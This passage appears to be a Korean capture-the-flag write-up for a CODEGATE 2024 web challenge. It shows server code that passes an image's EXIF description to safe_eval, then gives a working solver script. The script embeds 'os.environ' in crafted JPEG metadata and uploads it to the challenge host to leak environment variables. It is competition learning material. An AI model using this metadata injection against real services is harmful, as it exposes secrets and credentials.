 ```python {30-33, 57}
                                if "(" in value:
                                    return jsonify({'success': 'Verified'})
                                if ")" in value:
                                    return jsonify({'success': 'Verified'})
                                description_contents = safe_eval(value)
                                items_dict = dict(description_contents)
                                return jsonify({'debug': f'{items_dict}' })
                except Exception as e:
                    print(e)
            else:
                return jsonify({'error': 'Unsupported file format'}), 400

            if flag == 1:
                return jsonify({'success': "This is an image"}), 200
            else:
                return jsonify({'success': "Verified"}), 200

        except Exception as e:
            return jsonify({'error': 'Error processing image'}), 500
```

위 코드를 보면 알겠지만, `/verify`의 조건을 만족시키기 위해서는 두 개의 이미지가 필요하며 `EXIF`에 `CODEGATE2024\x00`가 존재해야 한다. 그리고 `ImageDescription`에 `os.environ`을 호출하는 코드가 존재해야 한다.

따라서 아래의 코드를 통해 `flag`를 획득할 수 있다. ~~파이썬 너무 어려워요~~

```python
import piexif
import requests

from PIL import Image

cmd  = 'os.environ'

exif_dict = {
    "0th": {
        piexif.ImageIFD.ImageDescription: cmd
    },
    "Exif": {
        piexif.ExifIFD.UserComment: b"CODEGATE2024\x00"  + '{"key": "value"}'.encode('ascii'),
    }
}

exif_bytes = piexif.dump(exif_dict)

width, height = 10, 10

img1 = Image.new('RGB', (width, height),  (255, 255, 255))
img2 = Image.new('RGB', (width, height), (255, 245, 255))


img1.save('img1.jpeg', exif=exif_bytes)
img2.save('img2.jpeg', exif=exif_bytes)


r = requests.Session()

with open('img1.jpeg', 'rb') as file_a, open('img2.jpeg', 'rb') as file_b:
    files = {
        'file-a': file_a,
        'file-b': file_b
    }
    a = r.post('http://43.201.116.50:3456/upload', files=files)
    print(a.text)
```